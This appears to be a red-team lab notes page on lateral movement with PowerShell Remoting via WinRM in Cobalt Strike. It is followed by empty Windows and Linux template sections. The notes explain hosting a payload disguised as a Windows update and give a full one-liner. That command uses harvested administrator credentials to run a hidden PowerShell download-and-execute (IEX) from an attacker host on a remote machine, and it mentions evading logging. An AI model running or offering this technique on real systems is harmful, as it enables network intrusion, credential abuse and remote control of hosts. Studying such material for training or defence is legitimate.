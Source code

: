 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

Advantage > 1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!
###### OPSEC
Keep in mind that we are using PowerShell for lateral movement in this case, and that PowerShell commands are prone to extensive security measures such as AMSI and script-block logging.
# C2 - Cobalt Strike

## Enumeration 
Lateral movement with Windows Remoting is very straight forward in Cobalt Strike, Cobalt Strike has a built-in jump command which supports WinRM.
- However, it only supports kerberos authentication. 
- As a result, we will have to perform the WinRM lateral movement a little bit more manually, which is a good exercise, as it shows you what the jump command does under the hood. 
## Exploitation
First host a Scripted Web Delivery by Navigating to Attacks -> Scripted Web Delivery (S) in the top half of your Cobalt Strike Client.
- Fill in the familiar `/WindowsUpate` payload  

![[Pasted image 20240411234042.png]]

Let's construct our PowerShell OneLiner. We will create alternate credentials and pass those along with our Invoke-Command to execute our payload on FS01 
- Note: We got Administrator creds stored in `troubleshooting.ps1` PS file. These were found stored in the 'Sales' share accessible to the low privilege user we compromised.

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

After successfull completion of the command, a new Beacon will check-in with high integrity.

![[Pasted image 20240411234257.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
